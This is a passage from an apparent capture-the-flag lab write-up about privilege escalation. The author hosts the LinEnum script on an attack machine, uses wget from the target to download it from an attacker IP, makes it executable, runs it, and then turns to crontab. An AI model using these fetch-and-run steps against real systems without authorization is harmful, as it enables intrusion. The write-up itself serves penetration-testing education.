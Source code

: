 We need to escalate privileges.

## Privilege Escalation <a id="8d94"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.6:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

Considering the name of the box, I’m going to focus on Crontab.

![](../images/max/786/1*uEslRn_pcSHggI4NNStLag.png)

If you’re not familiar with the crontab format, here’s a quick explanation taken from this [page](https://tigr.net/3203/2014/09/13/getting-wordpress-cron-work-in-multisite-environment/).
